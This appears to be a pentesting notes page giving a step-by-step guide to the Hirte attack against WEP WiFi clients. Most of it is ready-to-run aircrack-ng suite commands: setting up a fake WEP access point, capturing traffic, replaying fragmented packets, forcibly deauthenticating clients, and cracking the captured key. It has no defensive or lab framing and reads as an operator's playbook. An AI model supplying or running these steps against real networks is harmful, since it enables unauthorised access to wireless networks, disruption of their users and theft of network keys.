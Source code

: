 # HITRE Attack

## **HITRE Attack**

***

The HITRE (Hirte Attack) is a targeted attack aimed at clients within WiFi networks, specifically exploiting vulnerabilities in WEP (Wired Equivalent Privacy) authentication. To successfully execute this attack, you'll need to be familiar with the SSIDs of your target's WiFi networks. Here's a detailed guide on how to conduct the HITRE Attack:

It's important to note that the HITRE Attack primarily targets clients, not wireless access points. You must have knowledge of the SSIDs associated with your target's WiFi networks.

### **Set Up a Fake WEP WiFi Network**

If the real WiFi network is not present, you can create a fake WEP WiFi network using the following command

```bash
airbase-ng -W 1 -N wlan0mon -c 8 --essid essid -a FF:FF:FF:FF:FF:FF
```

### **Adjust Wireless Interface Power (If Necessary)**

To misassociate clients with the fake WiFi network, you may need to increase the power of your wireless network interface. Refer to Step 1 (Configuration) for guidance on how to achieve this.

### **Monitor the Real/Fake WiFi Network**

Capture handshakes and requests by monitoring either the real or fake WiFi network using the following command

```bash
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

### **Initiate Packet Replay to Target Clients**

Begin replaying packets to clients within your range using this command:

```bash
aireplay-ng --cfrag -D wlan1 -e essid -h FF:FF:FF:FF:FF:FF
```

### **Deauthenticate Clients from the Real/Fake WiFi Network**

If necessary, you can forcefully disconnect clients from the real or fake WiFi network with the following command

```bash
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### **Crack the WEP Authentication**

After collecting sufficient data through packet replay and monitoring, you can proceed to crack the WEP authentication using the 'aircrack-ng' tool

```bash
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF airodump_essid_results*.cap
```
